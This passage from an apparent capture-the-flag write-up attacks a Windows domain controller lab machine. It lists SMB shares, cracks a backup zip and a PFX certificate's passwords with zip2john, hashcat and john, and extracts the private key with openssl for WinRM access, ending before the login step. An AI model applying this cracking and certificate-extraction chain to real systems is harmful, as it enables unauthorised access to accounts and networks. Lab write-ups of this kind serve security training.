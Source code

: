```bash
SMB 10.10.11.152 445 DC01 ---------------- ------
SMB 10.10.11.152 445 DC01 ADMIN$ Remote Admin
SMB 10.10.11.152 445 DC01 C$ Default share
SMB 10.10.11.152 445 DC01 IPC$ READ Remote IPC
SMB 10.10.11.152 445 DC01 NETLOGON Logon server share 
SMB 10.10.11.152 445 DC01 Shares  READ 
SMB 10.10.11.152 445 DC01 SYSVOL Logon server share
```
Inside the `Shares` share we are able to get some files:
```bash
# Dev directory
smb: \Dev\> dir
  winrm_backup.zip                    A     2611  Mon Oct 25 15:46:42 2021
# Help Desk directory
smb: \HelpDesk\> dir
 LAPS.x64.msi A 1118208 Mon Oct 25 14:57:50 2021
 LAPS_Datasheet.docx A 104422 Mon Oct 25 14:57:46 2021
 LAPS_OperationsGuide.docx A 641378 Mon Oct 25 14:57:40 2021
 LAPS_TechnicalSpecification.docx A 72683 Mon Oct 25 14:57:44
```

# Exploitation

The .zip file is password protected, so we extract its hash with zip2john and then proceed to crack it with hashcat: ^d3fbae
```bash
zip2john winrm_backup.zip 
ver 2.0 efh 5455 efh 7875 winrm_backup.zip/legacyy_dev_auth.pfx PKZIP Encr: TS_chk, cmplen=2405, decmplen=2555, crc=12EC5683 ts=72AA cs=72aa type=8
winrm_backup.zip/legacyy_dev_auth.pfx:$pkzip$1*1*2*0*965*9fb*12ec5683*0*4e*8*965*72aa*1a84b40ec6b5c20abd7d695aa16d8c88a3cec7243a...
40c7d3df38fc5da2c1a255ff8c9e344761a397d2c2d59d722723d27140c6830563ee783156404a17e2f7b7e506452f76*$/pkzip$:legacyy_dev_auth.pfx:winrm_backup.zip::winrm_backup.zip
```
Hashcat output:
```bash
D:\Programs\hashcat-6.2.5>hashcat.exe -m 17220 -a 0 hash.txt rockyou.txt
supremelegacy
```
The .pfx file is also password protected:
```bash
pfx2john legacyy_dev_auth.pfx   
legacyy_dev_auth.pfx:$pfxng$1$20$2000$20$eb755568327396de179c4a5...
45b03465a6ce0c974055e6dcc74f0e893:::::legacyy_dev_auth.pfx
```
Hashcat output:
```bash
pfx2john legacyy_dev_auth.pfx | john /dev/stdin --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Press Ctrl-C to abort, or send SIGUSR1 to john process for status
thuglegacy       (legacyy_dev_auth.pfx)
```
Now that we get the passphrase for the PFX certificate, we need to extract its content. Searching on the Internet, we find this guide [How to Extract Certificate and Private Key from PFX](https://tecadmin.net/extract-private-key-and-certificate-files-from-pfx-file/) basically we need to run two commands:
```bash
# Extract the public certificate
openssl pkcs12 -in legacyy_dev_auth.pfx -clcerts -nokeys -out publicCert.pem               
# Extract the private key (don't forget to use the .pfx passphrase)
openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out priv-key.pem -nodes  
Enter Import Password:
```
Now that we get this two files, we can proceed to access the machine:
```bash
```